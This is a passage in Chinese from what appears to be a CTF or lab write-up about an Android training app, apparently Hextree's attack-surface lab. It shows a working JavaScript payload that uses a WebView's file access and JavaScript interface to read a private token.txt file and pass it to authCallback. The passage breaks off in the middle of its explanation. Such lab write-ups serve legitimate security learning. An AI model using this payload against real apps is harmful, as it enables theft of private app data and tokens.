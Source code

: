 - 读取  

```
token.txt
```

  
文件并比较其值。  
  
- 如果令牌匹配，它将触发该  

```
success()
```

  
方法（这是我们的目标）。  
  
- 否则，它什么也不做。  
  
# 漏洞利用  
  
由于该应用程序允许通用文件访问并提供了 JavaScript 接口，我们可以通过加载带有  
**恶意 JavaScript 负载的**  
外部 URL 来利用它。  
## 1. JavaScript 有效载荷  
  
以下脚本将从函数中窃取令牌  

```
token.txt
```

  
并将其传递给  

```
authCallback()
```

  
函数：  

```
< script > 
  onload = () => { 
    let x = new XMLHttpRequest(); 
    x.onload = () => hextree.authCallback(x.responseText.trim()); 
    x.open(&#34;GET&#34;, &#34;file:///data/data/io.hextree.attacksurface/files/token.txt&#34;); 
    x.send(); 
  }; 
</ script >
```

## 解释：  
- 
```
onload
```
